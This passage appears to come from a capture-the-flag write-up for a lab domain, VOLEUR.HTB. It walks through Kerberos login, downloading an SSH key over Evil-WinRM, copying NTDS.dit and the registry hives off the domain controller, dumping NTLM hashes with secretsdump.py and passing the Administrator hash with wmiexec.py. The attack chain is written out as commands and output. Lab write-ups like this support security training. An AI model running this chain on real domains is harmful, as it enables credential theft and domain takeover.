Target      : Domain:target=Jezzas_Account
Description : 
Unknown     : 
Username    : jeremy.combs
Unknown     : qT3V9pLXyN7W4m


```

The kinit command was used to request a Kerberos Ticket-Granting Ticket for the user jeremy.combs. The password "qT3V9pLXyN7W4m" was provided to authenticate to the domain and obtain the TGT, which is now cached for subsequent Kerberos-based service access.

```bash
kinit jeremy.combs
Password for jeremy.combs@VOLEUR.HTB: 

```

The klist command confirms that a Kerberos Ticket-Granting Ticket for the principal jeremy.combs@VOLEUR.HTB is now cached. The TGT is valid from 11/15/2025 06:00:27 until 11/15/2025 16:00:27, with a renewal validity until 11/22/2025 06:00:09. This grants the user jeremy.combs access to domain resources.

```bash
 klist             
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: jeremy.combs@VOLEUR.HTB

Valid starting       Expires              Service principal
11/15/2025 06:00:27  11/15/2025 16:00:27  krbtgt/VOLEUR.HTB@VOLEUR.HTB
        renew until 11/22/2025 06:00:09


```

A remote PowerShell session was established using Evil-WinRM with the cached Kerberos credentials for jeremy.combs. The session successfully connected to the Domain Controller. An SSH private key file named "id_rsa" was located and downloaded from the "Third-Line Support" directory to the local machine.

```bash
evil-winrm -i dc.voleur.htb -r voleur.htb

Evil-WinRM* PS C:\IT\Third-Line Support> download id_rsa
 
                                        
Info: Downloading C:\IT\Third-Line Support\id_rsa to id_rsa
                                        
Info: Download successful!


```

The command sudo chmod 600 id_rsa was executed to modify the permissions of the downloaded SSH private key file. This sets the file permissions to read and write for the owner only, which is a security requirement for SSH to accept the private key for authentication.

```bash
sudo chmod 600 id_rsa  


```

An SSH connection was initiated using the private key file id_rsa to authenticate as the user svc_backup on the target host voleur.htb via port 2222. The connection successfully established a secure shell session with the target system using key-based authentication

```bash
ssh -i id_rsa svc_backup@voleur.htb -p 2222


```

The directory listing reveals the presence of critical backup files. Within the registry directory, the SECURITY and SYSTEM hives are located. In the Active Directory directory, the ntds.dit database file and its accompanying ntds.jfm transaction file are present. These files constitute a complete backup of the Active Directory database and are essential for extracting credential information.

```bash
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups$ ls registry/
SECURITY  SYSTEM

svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups$ ls Active\ Directory/
ntds.dit  ntds.jfm

```

The SCP command was used to securely transfer the registry hive backups and the Active Directory database files from the remote host to the local machine. The SECURITY and SYSTEM hives, along with the ntds.dit and ntds.jfm files, were successfully copied using the established SSH key for authentication. These files are now available locally for credential extraction.

```bash
scp -i ~/id_rsa -P 2222 svc_backup@dc.voleur.htb:/mnt/c/IT/Third-Line\ Support/Backups/registry/* .   

scp -i id_rsa -P 2222 svc_backup@dc.voleur.htb:/mnt/c/IT/Third-Line\ Support/Backups/Active\ Directory/* 
```

The secretsdump.py tool was executed to extract password hashes from the NTDS.dit database using the SYSTEM hive for the Boot Key. The operation successfully dumped the NTLM hashes for domain accounts, including the Administrator user hash e656e07c56d831611b577b160b259ad2 and the krbtgt account hash 5aeef2c641148f9173d663be744e323c.

```bash
secretsdump.py -ntds ./ntds.dit -system ./SYSTEM LOCAL

Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5db085d469e3181935d311b72634d77:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5aeef2c641148f9173d663be744e323c:::

```

A WMIexec session was established using Pass-the-Hash with the Administrator's NTLM hash. Authentication was successful, providing command execution as the Domain Administrator. The root flag was retrieved from the Administrator's desktop, with the contents being 4420fa4c0ac2c92b368edee5b3423eca.

```bash
wmiexec.py voleur.htb/administrator@Dc.voleur.htb -no-pass -hashes :e656e07c56d831611b577b160b259ad2 -k


C:\users\Administrator>cd Desktop
C:\users\Administrator\Desktop>type root.txt
4420fa4c0ac2c92b368edee5b3423eca

```
